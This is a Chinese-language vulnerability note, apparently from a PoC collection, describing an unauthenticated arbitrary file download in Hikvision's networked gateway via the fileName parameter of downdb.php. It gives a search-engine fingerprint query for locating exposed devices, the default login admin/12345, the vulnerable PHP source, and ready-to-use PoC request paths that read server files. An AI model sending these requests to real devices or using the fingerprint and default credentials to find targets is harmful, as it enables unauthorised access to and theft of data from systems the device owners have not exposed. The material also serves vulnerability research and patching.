


# Hikvision 联网网关 downdb.php 任意文件读取漏洞

## 漏洞描述

海康威视 联网网关 在页面 downdb.php 的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
Hikvision 联网网关，流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title=="联网网关"
```

## 漏洞复现

默认密码：`admin/12345`



出现漏洞的代码文件为downdb.php，可以未授权下载任意文件：

```
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

POC：

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```

